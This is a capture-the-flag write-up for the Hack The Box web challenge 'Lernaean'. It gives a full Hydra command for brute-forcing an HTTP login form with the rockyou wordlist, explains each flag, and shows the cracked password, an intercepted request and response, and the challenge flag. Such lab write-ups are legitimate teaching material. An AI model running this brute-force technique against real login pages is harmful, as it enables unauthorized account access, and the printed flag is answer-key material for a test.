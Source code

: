 # Web Challenge: Lernaean (20 Points)

**Your target is not very good with computers. Try and guess their password to see if they may be hiding anything!**

<img src="lernaean-index.png">

I checked the source code and found nothing.

```html
<html>
<head>
    <title>Login - Lernaean</title>
</head>
<body style="background-color: #cd4e7b;">
    <center>
        <br><br><br>
        <h1><u>Administrator Login</u></h1>
        <h2>--- CONFIDENTIAL ---</h2>
        <h2>Please do not try to guess my password!</h2>
        <form method="POST">
            <input type="password" name="password"><br><br>
            <input type="submit" value="Submit">
        </form>
    </center>
</body>
</html>
```

I also used dirbuster and dirsearch but still nothing. Then I analyzed the challenge and found out that the author wants us to bruteforce the password because of this hint `Please do not try to guess my password!`.

To bruteforce the password, we can use `Medusa`, `Hydra`, and `Ncrack`. Then I noticed that the name of the challenge is Lernaean so if we do a Google Search about it, we will get this:

<img src="lernaean.png">

So for this challenge we will use Hydra.

Let's build our Hydra command.
```
$ hydra -l aj -P rockyou.txt docker.hackthebox.eu http-post-form “/:password=^PASS^:Invalid password!” -s 54677
```

**-l** - indicates a username (use -L if you will use a list of username) <br>
**-P** - indicates a password list (-p if you will use a single password) <br>
**docker.hackthebox.eu** - is the target <br>
**htt-post-form** - indicates the type of form <br>
**/** - indicates the location of the page where the password field is located <br>
**:** - separator
**password** - indicates the name of the field <br>
**^PASS^** - tells Hydra to use the password list <br>
**Invalid password!** - is the login failure message that the form returned if the password is wrong <br>
**-s** - indicates the port <br>

After executing the command, we finally got the password.

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-04 17:13:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://docker.hackthebox.eu:54677//:password=^PASS^:Invalid password!
[33971][http-post-form] host: docker.hackthebox.eu   login: aj   password: leonardo
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-04 17:13:41
```

After entering `leonardo`, the server returned this page:

<img src="nope.png">

So it looks like we need to do something because we're too slow to get the flag? Let's open Burp and interept the request.

HTTP Request
```
POST / HTTP/1.1
Host: docker.hackthebox.eu:54677
Content-Length: 17
Cache-Control: max-age=0
Origin: http://docker.hackthebox.eu:54677
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://docker.hackthebox.eu:54677/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

password=leonardo
```

HTTP Response
```
HTTP/1.1 200 OK
Date: Sun, 04 Nov 2018 08:10:14 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 618
Connection: close
Content-Type: text/html; charset=UTF-8

<h1 style='color: #fff;'>HTB{l1k3_4_b0s5_s0n}</h1><script type="text/javascript">
                   window.location = "noooooooope.html"
              </script>
<html>
<head>
    <title>Login - Lernaean</title>
</head>
<body style="background-color: #cd4e7b;">
    <center>
        <br><br><br>
        <h1><u>Administrator Login</u></h1>
        <h2>--- CONFIDENTIAL ---</h2>
        <h2>Please do not try to guess my password!</h2>
        <form method="POST">
            <input type="password" name="password"><br><br>
            <input type="submit" value="Submit">
        </form>
    </center>
</body>
</html>
```

And we got the flag. :)
